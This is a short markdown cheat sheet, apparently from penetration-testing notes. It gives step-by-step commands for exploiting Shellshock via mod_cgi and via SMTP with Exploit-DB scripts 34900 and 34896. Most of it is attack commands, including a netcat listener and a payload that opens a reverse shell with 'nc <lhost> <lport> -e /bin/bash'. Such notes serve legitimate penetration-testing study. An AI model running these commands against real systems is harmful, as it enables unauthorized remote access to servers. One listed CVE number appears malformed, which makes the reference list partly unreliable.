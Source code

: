 ### Shellshock using mod_cgi
```
python 34900.py payload=reverse rhost=<rhost> rport=<rport> lhost=<lhost> lport=<lport> pages=<path/cgi-bin/file>.cgi
```

### References
https://www.exploit-db.com/exploits/34900  
CVE-2014-6278  




### Prepare exploit for SMTP
```
vim 34896.py
```

### Insert:
```
data = netFormat("helo <domain>")
data = netFormat("mail from: <sender>")
data = netFormat("rcpt to: <recipient>")
```

### Start listener
```
nc -vlp <lport>
```

### Exploit
```
python2 34896.py <rhost> "nc <lhost> <lport> -e /bin/bash"
```

### References
* https://www.exploit-db.com/exploits/34896  
* CVE-2014-3659  
* CVE-2014-3671  
* CVE-2014-62771  
* CVE-2014-7169  
* CVE-2014-7196  
* CVE-2014-7227  
* CVE-2014-7910  

